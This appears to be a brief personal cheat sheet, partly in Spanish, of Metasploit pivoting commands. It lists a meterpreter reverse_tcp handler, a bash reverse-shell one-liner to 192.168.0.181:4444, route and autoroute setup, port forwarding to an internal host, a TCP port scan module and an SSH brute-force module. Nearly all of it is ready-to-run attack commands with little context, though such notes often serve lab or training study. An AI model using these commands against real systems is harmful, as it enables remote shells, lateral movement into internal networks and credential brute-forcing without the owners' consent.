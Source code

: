 ### Pivoting 

use /multi/handler

```python

payload/linux/x86/meterpreter/reverse_tcp

```
run
```python
sh -i >& /dev/tcp/192.168.0.181/4444 0>&1
```

route add
```python
route add 10.0.2.4 255.255.255.0 2
```

eliminar una ruta
```python
	route del
```

agregar rutas automaticas
```python
	use multi/manage/autoroute
```


pivoting by portforgarding 
```python
portfwd add -l 7777 -p 21 -r 10.0.2.5
```

escaneo de puertos TCP
```python
	scanner/portscan/tcp
```

fuerza bruta para ssh con metaesploit
```python
	ssh_login
```

